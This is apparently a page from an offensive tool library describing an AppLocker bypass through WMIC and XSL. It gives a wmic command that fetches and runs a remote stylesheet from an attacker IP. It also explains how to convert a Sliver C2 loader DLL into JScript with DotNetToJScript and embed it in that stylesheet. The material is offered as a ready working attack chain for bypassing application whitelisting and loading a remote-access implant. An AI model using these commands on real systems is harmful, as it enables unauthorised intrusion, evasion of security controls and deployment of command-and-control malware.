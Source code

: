 # XSL

## GitHub Tool Library Reference

The following is a collection of various AppLocker bypass tools

Main Directory: ToolLibrary/AppLocker-CLM/XSL

***

## XSL - WMIC

using `wmic` process with inline arguments to execute XML Stylesheet Language (XSL) code runner

### References

File Reference: ToolLibrary/AppLocker-CLM/XSL/runner.xsl\
Sliver (dll) runner: ToolLibrary/Compiled/Sliver/SliverLoader-\<arch>.dll\
Payload Generator: \[DevBox] C:\Tools\DotNetToJScript\DotNet2JScript \
Sliver (jscript) runner: ToolLibrary/Compiled/Sliver/Sliver-\<arch>.js

{% code overflow="wrap" %}
```bash
# utility location
C:\Windows\System32\wbem\wmic.exe

# Basic execution
wmic process get /format:"http://192.168.45.227/runner.xsl"

# Create shellcode into dll; leverage DotNet2JScript and insert .js into line 10:
C:\Tools\DotNetToJScript>DotNetToJScript.exe SliverLoader-<arch>.dll --lang=Jscript --ver=v4 -o runner.js
# Copy contents of runner.js and place into runner.xsl line 10
```
{% endcode %}
